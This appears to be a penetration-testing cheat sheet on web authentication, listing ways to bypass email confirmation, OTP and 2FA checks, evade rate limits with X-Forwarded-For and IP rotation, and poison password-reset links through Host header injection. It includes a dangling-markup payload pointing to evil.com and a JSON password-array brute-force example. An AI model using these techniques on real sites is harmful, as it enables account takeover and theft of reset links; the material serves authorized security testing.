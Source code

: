 # Authentication Testing

## Login Page:
  - Try

## Email confirmation bypass:

  - Try response manupulate to cofirm email
  - while confirm email try this: intecept request to burp and change your mail to another person mail if you cloud get success. 
  
## OTP Relate Testing:

  - If you can manupulate response code to 200 and 302.
  - If you brute force login OTP
    - If WAF try Ip rote extension
    - Read some article and reports about rate limit bypass
  - While you confirming OTP try to change you email to victim email: if you cloud login as another user.

## Password Reset functionality:
  - Try to add Host header in reset password request.
  - While reseting password intercept request to burp and see if you cloud add <a href> tag and see in email if there anything changes. 

## Authentication:
	
	- Bypass Rate Limit with X-Forwarded-For: to pwn authentication
	- Host header injeciton in forgot password page
	- Test Remember me functionality
	- Test password reset and/or recovery
	- 2FA Bypass
		- Access the content directly (site.com/profile)
		- Login using Oauth gmail or FB to bypass 2FA
		- Reset Password and login inoto the account to bypass 2FA 
		- Use old toke or change the response
	- Goto the reset password page and add two emails while sending the reset password link
		[You can recive two password reset link]
	- Web Cache deception [site.com/profile/min.js]
	- PHP protection can be bypassed using [] such as password=1234 ----> password[]= (CSRF token too)
	- While resetting password change the host header to your server (VPS) = secret link to your VPS
	- Bypass rate limit protection: You can use IP-Rotate burp extension or you can change system IP per request.
	
	- Password reset poisoning via dangling markup
		Host: victim.com:'<a href="//evil.com/? Don't #">

	- Add X-Forwarded-For: 127.0.0.1 or 1-1000 to bypass the rate limit protection.

	- Login into the valid account and then into valid one, repeat this process to fool the sever to bypass the rate limit protection (observe that your IP is blocked if your submit 3 incorrect logins in a row. However, you can reset the counter by logging in to your own account before the limit is reached)

	- replace the single string value of the password with an array of string containing all of the candidate passwords, for Example:
```json
	"username": "test",
	"password": [
		"1234",
		"password",
		"qwerty"
		....
	]
```

	- If you enter the wrong code twice, you will be logged out again bypass it using macros (You need to use burp's session handlling features to log back in automatically before sending each request.)
	
